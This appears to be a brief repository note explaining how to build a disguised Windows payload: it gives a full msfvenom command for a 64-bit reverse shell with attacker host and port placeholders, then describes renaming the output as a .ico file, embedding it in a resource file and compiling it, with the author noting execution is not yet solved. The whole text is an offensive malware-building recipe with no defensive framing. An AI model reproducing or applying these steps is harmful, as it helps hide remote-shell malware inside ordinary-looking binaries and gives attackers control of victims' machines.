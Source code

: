 Using msfvenom -p windows/64/shell_reverse_tcp LHOST=ipaddres LPORT=port -f raw -o shell generate a payload and save it in a file
and change the file to a .ico file in windows file explorer. Update the resource file with the new payload and compile the file. 
This would generate a reverse shell payload. The code prints the address of the payload and the size of the payload. Still working 
on execution and will update when I find a solution.